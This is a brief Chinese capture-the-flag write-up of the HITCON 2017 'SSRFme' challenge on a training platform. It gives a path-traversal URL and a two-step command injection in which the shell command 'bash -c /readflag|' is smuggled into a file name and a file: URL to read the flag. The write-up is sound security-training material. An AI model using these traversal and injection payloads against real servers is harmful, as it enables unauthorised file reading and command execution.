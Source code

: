 # [HITCON 2017]SSRFme1

![upload successful](./images/pasted-456.png)
上来就是代码审计

则目录$sandbox为sandbox/md5(orange111.73.46.229:80)即：sandbox/864300xxxxxxxxxxcc4523ef49c50223

GET ./可以查看当前路径，GET …/可以查看上一级路径，于是先：`http://0ba28389-bff6-48a1-952c-cfd44f67bfb3.node3.buuoj.cn/?url=../../../../../../&filename=aaa`

然后访问aaa：
`http://1c2ae46f-4e1e-4987-bb41-072e27d42dd7.node4.buuoj.cn:81/sandbox/2eeed2f9aeae6311b507ada8fb98809e/aaa`

![upload successful](./images/pasted-457.png)
`
首先得满足前面的文件存在, 才会继续到open语句, 所以在执行命令前得保证有相应的同名文件:
?url=&filename=bash -c /readflag| 先新建一个名为“bash -c /readflag|”的文件，用于之后的命令执行
?url=file:bash -c /readflag|&filename=aaa 再利用GET执行bash -c /readflag保存到111文件
访问sandbox/md5/aaa（得到flag）`